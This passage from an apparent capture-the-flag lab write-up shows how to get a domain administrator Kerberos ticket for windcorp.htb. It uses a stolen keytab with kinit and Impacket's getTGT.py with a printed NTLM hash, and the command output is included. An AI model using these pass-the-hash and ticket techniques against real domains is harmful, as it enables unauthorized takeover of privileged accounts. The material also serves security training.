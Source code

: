 
It’s important that the domain be in all caps matching the realm in the
`/etc/krb5.conf` file.

Now I’ll run `kinit`
([docs](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.html))
to get a ticket, passing it that file:

    
    
    oxdf@hacky$ kinit -V -k -t administrator.keytab -f administrator@WINDCORP.HTB
    Using default cache: /tmp/krb5cc_1000
    Using principal: administrator@WINDCORP.HTB
    Using keytab: administrator.keytab
    Authenticated to Kerberos v5
    

`-k -t [keytab file]` is how that’s passed, and `-f` is to request forwardable
tickets.

After that, the ticket is in my local session:

    
    
    oxdf@hacky$ klist
    Ticket cache: FILE:/tmp/krb5cc_1000
    Default principal: administrator@WINDCORP.HTB
    
    Valid starting       Expires              Service principal
    11/10/2022 22:48:08  11/11/2022 08:48:08  krbtgt/WINDCORP.HTB@WINDCORP.HTB
            renew until 11/11/2022 22:48:07
    

#### Using Impacket

One way to get a local ticket using the hash is with `getTGT.py` (from
[Impacket](https://github.com/SecureAuthCorp/impacket)). It takes the account
and the credentials (password or hash) and talks to the DC to get a ticket
that can be used to authenticate, saving that ticket in
`administrator.ccache`:

    
    
    oxdf@hacky$ getTGT.py -hashes :b3ff8d7532eef396a5347ed33933030f windcorp.htb/administrator
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation
    
    [*] Saving ticket in administrator.ccache
    

`klist` and other Kerberos tools will use the location `/tmp/krb5cc_1000` to
store tickets by default, but the `KRB5CCNAME` environment variable can be
used to identify a different file. For example, using this ticket just
acquired:

    
    
    oxdf@hacky$ KRB5CCNAME=./administrator.ccache klist
    Ticket cache: FILE:./administrator.ccache
    Default principal: administrator@WINDCORP.HTB
    
    Valid starting       Expires              Service principal
    11/11/2022 11:54:12  11/11/2022 21:54:12  krbtgt/WINDCORP.HTB@WINDCORP.HTB
            renew until 11/12/2022 11:54:11
    